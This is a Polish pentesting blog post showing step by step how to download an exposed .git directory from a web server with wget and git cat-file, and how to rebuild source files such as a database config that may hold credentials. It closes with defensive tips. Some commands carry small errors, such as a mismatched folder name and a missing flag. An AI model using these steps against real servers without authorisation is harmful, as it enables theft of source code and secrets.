 ```yaml
---
layout: post
title: GIT repository pentesting
subtitle: Odczytywanie zawartości folderu .git
tags: [git pentesting, web app pentesting,web aplication pentesting, pentesting, GIT LOGS HEAD]
---
```


W trakcie przeprowadzanych przez nas testów penetracyjnych aplikacji webowych czasem zdarzy się nam natrafić na katalog .git z włączonym lub wyłączonym listowaniem plików.
Developerzy często zapominają/nie są świadomi że podczas używania komendy `git clone` automatycznie tworzony jest katalog .git zawierający metadane repozytorium.
Zdarza się również że repozytorium zawiera pliki konfiguracyjne z loginami/hasłami, które powinny znaleźć się w pliku gitignore.

Jakie korzyści daje nam dostęp do folderu .git?

Jeżeli przykładowa aplikacja nie jest open sourcowa, możemy przeprowadzić analizę kodu, do którego normalnie nie mielibyśmy dostępu.
W plikach konfiguracyjnych możemy znaleźć np. poświadczenia potrzebne do połączenia się z bazą danych itp

Z perspektywy osoby przeprowadzającej testy jest to bezcenne znalezisko, jak zatem odczytać zawartość repozytorium?

W przypadku gdy włączone jest listowanie plików, sprawa jest prosta.

Tworzymy folder, do którego pobierzemy całą zawartość katalogu .git

```
mkdir gitdump
```

Przechodzimy do folderu:
```
cd gitdump
```
Pobieramy zawartość katalogu wraz z podfolderami i wszystkimi plikami.
```
wget --mirror --include-directories=/.git http://example.com/.git
```
Po pobraniu wszystkich plików przechodzimy do folderu
```
cd example.com
```
i wykonujemy polecenie
```
git reset --hard
```
Jeżeli wszystko przebiegło bez problemów zobaczymy komunikat

HEAD is now at [...]

Po wylistowaniu zawartości folderu naszym oczom powinny sie ukazać pliki z kodem źródłowym aplikacji.

Trudniejszy, ale nie niemożliwy jest podgląd plików w przypadku gdy na serwerze wyłączone jest listowanie plików.

W takim przypadku po wejściu pod przykładowy adres example.com/.git nie zobaczymy żadnych podfolderów. W zależności od konfiguracji serwera www naszym oczom ukaże się blank page lub komunikat podobny to tego poniżej

Directory listing not allowed
Forbidden

W takim przypadku warto sprawdzić czy mamy dostęp do pliku example.com/.git/logs/HEAD
Jeżeli tak naszym oczom ukaże się zawartość pliku:
```
0000000000000000000000000000000000000000 7fe18903e7977db3a373981fb775884c9189fab9 ...
```
Pliki zawarte w repozytorium możemy w takim wypadku odczytać poprzez wykonanie poniższych czynności:

Tworzymy przykładowy folder
```
mkdir gitexaple && cd gitexample
```
Inicjalizujemy nowe repozytorium
```
git init
```
Przechodzimy do folderu ./git/objects/

Tworzymy folder z nazwą stworzoną z dwóch pierwszych znaków zawartego w pliku .git/logs/HEAD HEAD commit ID
W naszym przypadku będzie to:
```
mkdir 7e && cd 7e
```
W folderze ./git/objects/ na serwerze www znajduje sie katalog odpowiadający dwóm pierwszym znakom HEAD commit ID z pliku .git/logs/HEAD a w nim plik którego nazwa to pozostałe znaki HEAD commit ID
Pobieramy go:
```
wget http://example.com/.git/objects/7f/e18903e7977db3a373981fb775884c9189fab9
```
a następnie czytamy jego zawartość:
```
git cat-file -p 7fe18903e7977db3a373981fb775884c9189fab9
```
po wywołaniu komendy zobaczymy kilka lini tekstu, interesuje nas tree id
```
...
tree e8189a98db67ce982248c72b56e5ba2102921bff
parent b7fe7438096875631fa6f917dc4a6896cbb9bf02
...
```
Analogicznie do poprzednio wykonanych kroków w katalogu .git/objects/ tworzymy folder nazwany na podstawie dwoch pierwszych znaków tree ID e8189a98db67ce982248c72b56e5ba2102921bff i pobieramy z niego plik nazwany resztą znaków z tree ID.
```
mkdir e8 && cd e8
wget http://example.com/.git/objects/e8/189a98db67ce982248c72b56e5ba2102921bff
```
i odczytujemy zawartość pobranego pliku
```
git cat-file -p e8189a98db67ce982248c72b56e5ba2102921bff
```
W tym momencie powinna ukazać sie nam lista plików zawartych w repozytorium oraz ciągi znaków potrzebne do ich odczytania, przykładowo:
```
040000 tree 7b557a72a79b3a38512139bac573e36b44c89181 cms
040000 tree d36e87fd76488f48acc41a6a585625a569db5f88 includes
040000 tree b97734c693e55982a6f2285f28e315e7af60d272 images
100644 blob 42fd8b71db9d1f2df671601a6b90c613a1cb6c40 db-config.php
100644 blob e63a64345d5d230a247876fe5f0fcf0f31bb2345 composer.json
040000 tree fbd1d628c2562ae14cf343e0b41cf190c05bedc8 library
```
Zakładając, że chcemy odczytać zawartość pliku db-config.php ponownie w .git/object tworzymy katalog 42 i pobieramy plik fd8b71db9d1f2df671601a6b90c613a1cb6c40:
```
mkdir 42 && cd 42
wget http://example.com/.git/objects/42/fd8b71db9d1f2df671601a6b90c613a1cb6c40
```
i oczytujemy jego zawartość:
```
git cat-file 42fd8b71db9d1f2df671601a6b90c613a1cb6c40
```
Całość procesu można zautomatyzować w dość prosty sposób.

Co robić aby nie spotkało to także nas? Oto kilka pomysłów:

Usunięcie folderu .git po check-oucie.  
Skorzystanie z .htaccess w celu zablokowania dostępu do folderu .git.  
Trzymanie folderu .git jeden poziom wyżej, w miejscu niedostępnym dla serwera www.
